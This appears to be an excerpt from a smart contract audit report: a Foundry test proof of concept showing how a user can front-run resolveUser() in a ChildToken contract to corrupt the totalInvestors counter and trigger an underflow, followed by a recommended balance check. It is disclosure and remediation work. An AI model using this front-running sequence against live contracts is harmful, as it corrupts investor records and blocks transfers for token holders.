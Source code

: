 **Proof of Concept:** Add the following PoC to `ChildTokenAdminTest.t.sol`:
```solidity
    function test_resolveUser_FrontRanHijacks_totalInvestorCounter() public {
        address oldUser = getDomesticUser(1);
        address newUser = getDomesticUser(2);
        address extraInvestor = getDomesticUser(3);

        centralTokenProxy.mint(address(this), uint64(1));
        centralTokenProxy.dynamicTransfer(extraInvestor, 1);

        // Seed: old user has 3 tokens (locked by default on mint)
        centralTokenProxy.mint(address(this), uint64(3));
        centralTokenProxy.dynamicTransfer(oldUser, 3);
        assertEq(d_childTokenProxy.balanceOf(oldUser), 3);

        // Distribute payout via PaymentSettler -> Central -> Child
        IERC20(address(stableCoin)).approve(address(paySettlerProxy), type(uint256).max);
        paySettlerProxy.distributePayment(address(centralTokenProxy), address(this), 300); // 300 USD(6) total

        assertEq(d_childTokenProxy.totalInvestors(), 2);

        uint32 DEFAULT_LOCK_TIME = 365 days;
        vm.warp(block.timestamp + DEFAULT_LOCK_TIME);

        //@audit-info => `oldUser` frontruns `resolveUser()` and transfers all of his balance!
        vm.prank(oldUser);
        d_childTokenProxy.transfer(newUser, 3);

        //@audit-info => Doesn't revert even though `oldUser` has 0 balance
        // Resolve: move state to newUser (already allowlisted + signed in base)
        d_childTokenProxy.resolveUser(oldUser, newUser);

        //@audit-issue => Only 1 investor when in reality are 2 (newUser and extraInvestor)
        assertEq(d_childTokenProxy.totalInvestors(), 1);

        //@audit-info => newUser transfers all his tokens to extraInvestor - totalInvestors shrinks
        vm.warp(block.timestamp + DEFAULT_LOCK_TIME);
        vm.prank(newUser);
        d_childTokenProxy.transfer(extraInvestor, 3);
        assertEq(d_childTokenProxy.totalInvestors(), 0);

        //@audit-issue => underflow because totalInvestors is 0 and extraInvestor is transferring all of his balance
        vm.warp(block.timestamp + DEFAULT_LOCK_TIME);
        vm.prank(extraInvestor);
        vm.expectRevert();
        d_childTokenProxy.transfer(newUser, 4);
    }
```

**Recommended Mitigation:** Consider adding a check to validate if the `oldAddress` `balanceOf` ChildToken is 0, if so, revert the tx.
